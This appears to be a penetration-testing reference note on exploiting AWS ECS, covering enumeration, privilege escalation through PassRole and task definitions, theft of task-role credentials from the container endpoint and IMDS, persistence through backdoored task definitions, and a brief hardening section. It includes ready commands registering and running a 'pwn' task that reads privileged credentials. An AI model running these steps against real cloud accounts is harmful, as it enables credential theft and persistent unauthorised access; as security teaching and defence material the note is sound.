

# 09 - AWS ECS Exploitation

## 1. Executive Summary

ECS (Elastic Container Service) runs containers on EC2 or Fargate, each task with a **task role** (and on EC2, the underlying instance role). Privilege escalation centers on **`iam:PassRole` + `ecs:RegisterTaskDefinition` + `ecs:RunTask`** — define a task with a powerful role and a command that exfils its creds. From inside a task, the **task-role creds are reachable via the container credential endpoint** (`169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`); on EC2-backed ECS you can also reach the host **IMDS** for the instance role. Backdooring task definitions gives persistence.

## 2. Service Overview & Architecture

A **task definition** specifies containers, command, and `taskRoleArn`/`executionRoleArn`. **Services** keep tasks running; **clusters** group capacity. Fargate tasks expose role creds at `http://169.254.170.2/...` (relative URI in env). EC2 launch type also has the host instance profile reachable via IMDS unless blocked. PassRole controls which roles a task may assume.

## 3. Enumeration

```bash
aws ecs list-clusters
aws ecs list-services --cluster <c>
aws ecs list-task-definitions
aws ecs describe-task-definition --task-definition <td>   # role ARNs + container cmd/env
aws ecs describe-tasks --cluster <c> --tasks <id>
# Inside a task:
curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

## 4. Privilege Escalation / Abuse Vectors

- **`iam:PassRole` + `RegisterTaskDefinition` + `RunTask`** — new task with a high-priv role + command that dumps creds → privesc.
- **`ecs:UpdateService` / register new task def revision** — point a service at a backdoored task definition (runs as its role).
- **Task-role cred theft** — RCE in a container → read `169.254.170.2` creds.
- **EC2 launch type → IMDS** — reach the host instance role if IMDS not locked to the container.
- **`ecs:ExecuteCommand` (ECS Exec)** — if enabled + perms, get an interactive shell into a running task.

```bash
aws ecs register-task-definition --family pwn --task-role-arn <privrole> \
  --container-definitions '[{"name":"c","image":"","command":["sh","-c","curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"]}]'
aws ecs run-task --cluster <c> --task-definition pwn
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Backdoored task definition revision; service kept pointing at it.
- Long-running attacker task in the cluster.

## 7. Post-Exploitation / Data Access
- Task/instance role creds → S3/Secrets/RDS.
- Container env/secrets; lateral to other tasks/services.

## 8. Detection & Hardening
1. Restrict `iam:PassRole` + `RegisterTaskDefinition`/`RunTask`; least-privilege task roles.
2. Block container access to IMDS (hop-limit / `ECS_AWSVPC_BLOCK_IMDS`); enforce IMDSv2 on hosts.
3. Disable ECS Exec unless needed; alert on task-def registration + RunTask with role.

## 9. Chaining / Related Notes
- Image source: **[[08 - ECR Exploitation]]**. Host IMDS: **[[04 - EC2 Exploitation]]**.
- Container privesc context: **[[05 - AWS ECS EKS — Container Privilege Escalation]]** (I-37).

## 10. Tools
`aws ecs`, `pacu`, `curl` (cred endpoint), `ScoutSuite`.
